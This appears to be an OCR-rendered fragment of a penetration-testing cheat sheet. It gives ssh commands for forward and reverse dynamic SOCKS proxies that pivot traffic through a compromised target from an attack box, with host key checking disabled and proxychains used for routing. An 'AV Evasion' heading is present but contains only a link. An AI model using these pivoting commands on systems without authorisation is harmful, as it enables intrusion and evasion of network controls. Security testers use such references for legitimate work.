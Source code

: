 ##### SSH Forward Dynamic SOCKS Proxy 

>   **Purpose**: Create a proxy for accessing multiple hosts via the target dynamically.
>
>   **Example**:
>
>   -   **SOCKS Proxy**: `127.0.0.1:50001` on the attack box.
>   -   Any traffic configured to use this proxy is routed via the target, making it useful for accessing multiple remote hosts dynamically.

```bash
$ ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -f -N -D attack-ip:attack-port -i /path/to/private-key user@target

$ ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -f -N -D 127.0.0.1:50001 user@target

# Once configured + edit proxychains
local$ proxychains curl http://remote_example.com
```

##### SSH Reverse Dynamic SOCKS Proxy

>   **Purpose**: Provide a proxy on the remote machine to access multiple local hosts.
>
>   **Example**:
>
>   -   **SOCKS Proxy**: `127.0.0.1:50001` on the target machine.
>   -   Any traffic configured to use this proxy on the target machine is routed via your local machine.

```bash
$ ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -f -N -R attack-ip:attack-port -i /path/to/private-key user@attack-box-ip

$ ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -f -N -R 127.0.0.1:50001 user@attack-box-ip

# Once configured + edit proxychains
remote$ proxychains http://local_example.com
```

# AV Evasion

>   https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/
>

# General

### `virtualenv`
